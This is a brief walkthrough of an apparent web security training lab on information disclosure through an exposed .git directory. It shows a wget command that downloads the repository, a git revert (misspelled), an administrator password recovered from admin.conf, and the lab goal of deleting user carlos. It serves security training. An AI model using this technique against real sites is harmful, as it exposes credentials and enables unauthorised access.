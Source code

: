 Lab: Information disclosure in version control history
difficulty: practitioner

`wget -r https://0a86003804d8744e813d625d00dc001f.web-security-academy.net/.git/`  
`git revet 580e2a0e97d60d80f3a3ed824f099b35e2cb4bc0`

open in vscode and inspect `admin.conf`  
administrator:6x65pubu616oild86id9  
you can go ahead and delete user `carlos`